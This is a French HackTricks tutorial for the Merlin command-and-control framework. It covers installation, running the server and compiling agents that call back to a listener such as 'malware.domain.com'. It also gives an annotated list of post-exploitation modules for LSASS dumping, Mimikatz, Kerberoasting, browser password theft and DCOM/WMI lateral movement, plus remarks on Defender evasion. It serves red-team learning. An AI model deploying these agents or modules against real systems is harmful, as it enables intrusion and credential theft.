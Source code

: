 <details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>


# Installation

## Installer GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Installer Merlin

Install Merlin by running the following command:

```bash
git clone https://github.com/Ne0nd0g/merlin.git
```
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Lancer le serveur Merlin
```
go run cmd/merlinserver/main.go -i
```
# Agents de Merlin

Vous pouvez [télécharger des agents précompilés](https://github.com/Ne0nd0g/merlin/releases)

## Compiler les Agents

Allez dans le dossier principal _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **Agents de compilation manuelle**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# Modules

**La mauvaise nouvelle est que chaque module utilisé par Merlin est téléchargé depuis la source (Github) et enregistré sur le disque avant d'être utilisé. Faites attention lorsque vous utilisez des modules bien connus car Windows Defender vous attrapera!**


**SafetyKatz** --> Mimikatz modifié. Dump LSASS dans un fichier et lance:sekurlsa::logonpasswords vers ce fichier\
**SharpDump** --> minidump pour l'ID de processus spécifié (LSASS par défaut) (Il est dit que l'extension du fichier final est .gz mais en réalité c'est .bin, mais c'est un fichier .gz)\
**SharpRoast** --> Kerberoast (ne fonctionne pas)\
**SeatBelt** --> Tests de sécurité locaux dans CS (ne fonctionne pas) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compilation en utilisant csc.exe /unsafe\
**Sharp-Up** --> Tous les checks en C# dans powerup (fonctionne)\
**Inveigh** --> Outil de spoofing et d'homme du milieu PowerShellADIDNS/LLMNR/mDNS/NBNS (ne fonctionne pas, besoin de charger: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> Impersonne tous les utilisateurs disponibles et récupère une réponse de défi pour chacun (hachage NTLM pour chaque utilisateur) (mauvaise URL)\
**Invoke-PowerThIEf** --> Vole des formulaires à partir d'IExplorer ou le fait exécuter du JS ou injecte une DLL dans ce processus (ne fonctionne pas) (et le PS semble ne pas fonctionner non plus) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Obtient les mots de passe du navigateur (fonctionne mais ne imprime pas le répertoire de sortie)\
**dumpCredStore** --> API du gestionnaire d'informations d'identification Win32 (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Détecte l'injection classique dans les processus en cours d'exécution (Injection classique (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (ne fonctionne pas)\
**Get-OSTokenInformation** --> Obtient les informations de jeton des processus et threads en cours d'exécution (Utilisateur, groupes, privilèges, propriétaire… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> Exécute une commande (sur un autre ordinateur) via DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Exécute une commande sur un autre PC en abusant des objets COM de PowerPoint (ADDin)\
**Invoke-ExcelMacroPivot** --> Exécute une commande sur un autre PC en abusant de DCOM dans Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (ne fonctionne pas) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> Il extrait toutes les parties les plus intéressantes de la stratégie de groupe et fouille ensuite dedans pour trouver des éléments exploitables. (obsolète) Jetez un œil à Grouper2, ça a l'air vraiment bien\
**Invoke-WMILM** --> WMI pour se déplacer latéralement\
**Get-GPPPassword** --> Recherche de groups.xml, scheduledtasks.xml, services.xml et datasources.xml et renvoie les mots de passe en clair (dans le domaine)\
**Invoke-Mimikatz** --> Utilise mimikatz (creds par défaut)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Vérifie les privilèges des utilisateurs sur les ordinateurs\
**Find-PotentiallyCrackableAccounts** --> Récupère des informations sur les comptes d'utilisateur associés à SPN (Kerberoasting)\
**psgetsystem** --> obtient le système

**N'a pas vérifié les modules de persistance**

# Résumé

J'aime vraiment la sensation et le potentiel de l'outil.\
J'espère que l'outil commencera à télécharger les modules depuis le serveur et intégrera une sorte d'évasion lors du téléchargement de scripts.


<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
